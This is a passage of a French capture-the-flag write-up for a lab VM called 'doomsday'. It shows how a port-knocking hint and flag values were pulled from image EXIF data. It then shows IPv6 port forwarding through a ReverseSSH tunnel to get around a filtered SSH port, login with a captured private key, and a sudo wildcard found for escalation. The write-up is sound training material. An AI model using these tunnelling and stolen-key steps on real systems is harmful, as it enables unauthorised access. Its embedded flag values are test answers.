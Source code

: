 L'un des fichiers est différent et renferme l'ordre des ports à taper dans ses tags EXIF   

```plain
$ strings ./html/_hint_/knockknock2.jpg 
Exif 
#FLAG6: c9db6b7cad326cab2bcf0d2a26f7832d 
Open sesame: 5000, 7000, 9000
```

Vu que ça ne me dit rien, bypassons cette étape :p  

Bonjour Michael
---------------

Le port SSH est filtré comme vu au début. Il l'est aussi depuis la VM elle même.  

Il ne l'est pas en revanche pour IPv6. Je profite donc de mon tunnel SSH pour forwarder le port puis je me connecte avec la clé de Michael (pour rappel, ReverseSSH créé par défaut un tunnel sur le port 8888) :  

```bash
$ ssh -L 2223:[::1]:22 -N -p 8888 127.0.0.1
$ ssh -p 2223 -i michael michael@127.0.0.1
```

```plain
$ ssh -p 2223 -i michael michael@127.0.0.1  
______                 _            ___  ____  __  __ _ _        
|  _  \               | |           |  \/  (_)/ _|/ _| (_)       
| | | |_   _ _ __   __| | ___ _ __  | .  . |_| |_| |_| |_ _ __   
| | | | | | | '_ \ / _` |/ _ \ '__| | |\/| | |  _|  _| | | '_ \  
| |/ /| |_| | | | | (_| |  __/ |    | |  | | | | | | | | | | | | 
|___/  \__,_|_| |_|\__,_|\___|_|    \_|  |_/_|_| |_| |_|_|_| |_| 
Enter passphrase for key 'michael':
michael@doomsday:~$ ls -alR 
.: 
total 60 
drwxr-xr-x 6 michael michael  4096 Nov 30  2020 . 
drwxr-xr-x 5 root    root     4096 Nov 16  2020 .. 
-rw------- 1 michael michael  2687 Nov 30  2020 .bash_history 
-rw-r--r-- 1 michael michael   220 Nov 12  2020 .bash_logout 
-rw-r--r-- 1 michael michael  3771 Nov 12  2020 .bashrc 
drwx------ 2 michael michael  4096 Nov 12  2020 .cache 
drwx------ 3 michael michael  4096 Nov 12  2020 .gnupg 
drwxrwxr-x 3 michael michael  4096 Nov 12  2020 .local 
-rw-r--r-- 1 michael michael   807 Nov 12  2020 .profile 
-rw-r----- 1 michael michael 13120 Nov 17  2020 script 
drwx------ 2 michael michael  4096 Nov 13  2020 .ssh 
-rw-r----- 1 michael michael    41 Nov 30  2020 .sus.txt
michael@doomsday:~$ cat .sus.txt 
#FLAG7: 76a2ecd19b04acb89b7fe8c3d83296df
michael@doomsday:~$ sudo -l 
Matching Defaults entries for michael on doomsday: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User michael may run the following commands on doomsday: 
    (ALL) NOPASSWD: /home/creed/defuse*
```
